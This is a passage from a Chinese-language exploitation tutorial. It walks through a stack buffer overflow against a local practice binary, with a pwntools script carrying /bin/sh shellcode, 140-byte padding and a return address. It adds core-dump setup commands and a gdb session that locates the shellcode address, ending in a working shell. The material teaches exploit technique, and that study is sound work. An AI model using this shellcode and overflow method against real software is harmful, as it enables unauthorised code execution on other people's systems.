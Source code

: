 那么我们的payload便很简单了：
> payload = shellcode + 一堆字符补足长度到140 + shellcode的起始地址
> 
将这个payload作为用户输入载入内存中即可被执行。下一步要做的便是找到shellcode的起始地址。

### 寻找起始地址
这里基本上可以全部参考[一步一步学ROP之linux_x86篇](http://drops.xmd5.com/static/drops/tips-6597.html)。笔者在尝试其中的代码时发现在**ubuntu18.04 LTS**环境下使用pwntools时，载入程序的地址会和直接开启core dump功能时的地址有微小区别，故而可以直接使用pwntools来进行core dump.

```python
from pwn import *

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

p = process("./level1")
ret = 0xffffcea0
# 第一次运行时可以任意选择

payload = shellcode + b'A' * (140 - len(shellcode)) + p32(ret)
# p32()会帮你转换好地址在内存中存储的形状

p.send(payload)
p.interactive()
# 开启交互式命令行
```

开启core dump：
```shell
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
```

```shell
➜  linux_x86 git:(master) ✗ python ./pwn1.py
[+] Starting local process './level1': pid 4757
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ sodaod
[*] Process './level1' stopped with exit code -11 (SIGSEGV) (pid 4757)
[*] Got EOF while sending in interactive
➜  linux_x86 git:(master) ✗ gdb ./level1 /tmp/core.1570062471.4757 
Core was generated by `./level1'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xaaaaaaaa in ?? ()
gef➤  x/10s $esp-144
0xffffcea0:     "1\300Ph//shh/bin\211\343P\211\342S\211\341\260\v̀", 'A' <repeats 115 times>, "\252\252\252\252P\317\377\377"
0xffffcf35:     ""
0xffffcf36:     ""
0xffffcf37:     ""
0xffffcf38:     ""
0xffffcf39:     ""
0xffffcf3a:     ""
0xffffcf3b:     ""
0xffffcf3c:     "\271\330\334\367$\236\370\367$\236\370", <incomplete sequence \367>
0xffffcf49:     ""
gef➤  quit
➜  linux_x86 git:(master) ✗ python ./pwn1.py                     
[+] Starting local process './level1': pid 4816
[*] Switching to interactive mode
$ whoami
ya0guang
$  
```
我们一开始不知道ret的地址时可以先随便写一个，执行后生成core dump文件。再用gdb打开它，查询$esp-144位置的地址，填入rer即可。